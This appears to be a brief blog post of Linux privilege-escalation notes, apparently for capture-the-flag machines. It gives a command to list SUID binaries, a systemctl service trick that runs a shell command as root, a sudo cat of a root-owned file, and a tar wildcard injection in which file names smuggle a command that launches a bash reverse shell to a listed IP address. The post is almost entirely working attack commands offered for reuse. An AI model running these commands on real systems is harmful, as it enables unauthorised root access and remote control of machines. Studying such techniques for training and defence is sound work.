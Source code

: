 ```yaml
---
layout: post
title: SUID 
author: Edwards
date: 2020-11-15 
math: true 
---
```


## Find and exploit SUID Files
```bash
find / -perm -u=s -type f 2>/dev/null 
```

## systemctl
[!GTFObins_Systemctl](https://gtfobins.github.io/gtfobins/systemctl/) 
```bash
var=$(mktemp).service

echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag"

[Install]
WantedBy=multi-user.target' > $var

/bin/systemctl link $var
/bin/systemctl enable --now $var
```

## cat
```bash
LFILE=/root/root.txt 
sudo cat "$LFILE"
```

## tar
[!GTFObins_tar](https://gtfobins.github.io/gtfobins/tar/)
```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.11.15.91/4555 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

